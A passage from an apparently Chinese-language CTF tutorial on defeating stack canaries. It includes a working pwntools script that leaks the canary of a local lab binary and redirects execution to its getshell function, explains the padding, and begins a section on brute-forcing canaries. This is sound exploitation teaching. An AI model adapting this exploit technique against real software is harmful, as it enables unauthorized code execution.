 可以发现每次进程启动的 canary 值都不一样；现在需要将 canary 的值泄露出来，因为这里存在栈溢出和格式化字符串漏洞，这样可以将 canary 当作 buf 的一部分进行输出

构造 exp：

```plain
#-*- codingLutf-8 -*-
from pwn import *

context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./canary1')
e = ELF('./canary1')
get_shell = e.sym['getshell']
#1 leak canary
p.recvuntil('Hello Hacker!')
payload = 'a'*100
p.sendline(payload)

p.recvuntil('a'*100)
canary = u32(p.recv(4))-0xa
log.info("Canary:"+hex(canary))

#bypass canary
payload = 'a'*100+p32(canary)+'a'*8+'a'*4+p32(get_shell)
p.sendline(payload)
p.interactive()
```

首先解释为什么第一个 payload 需要输入 100 个 a，跟 gdb 调试的时候不一致？

因为 printf 碰到换行符会将缓冲区的字符输出，然后刷新缓冲区；输入 100 个 a 的原因正是将 sendline 添加的换行符溢出到 canary 的低字节，这样在 printf 输出的时候将 100 个 a 放到缓冲区后不会输出，会继续读取 canary，由于小端存储，故会将 canary 的值也添加到缓冲区，再碰到换行，输出缓冲区的内容，这也是为什么在接受到输出后会减去 0xa 得到真实的 canary(这里溢出的 0xa 占用 canary 的低字节，不会影响里面的值，**因为 canary 低字节为 00**)

为什么第二个 payload 中间需要填充 12 个 a？

观察加入 canary 后栈中的分配即可得到答案，前 8 个 a 是填充 canary 到 ebp 的 8 字节距离，而后面的 4 个 a 是填充 esp

## 爆破 Canary

### 原理

**每次进程重启的 Canary 不同，但是同一个进程中的不同线程的 Canary 是相同的，并且通过 fork 创建的子进程的 Canary 是相同的**

### 条件

与泄露 Canary 的条件一致，唯一的区别在于不存在合适的输出缓冲区字符串的函数

### 利用

查看保护：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin1
[*] '/home/qufeng/Desktop/CTF/pwn/stack/canary/bin1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
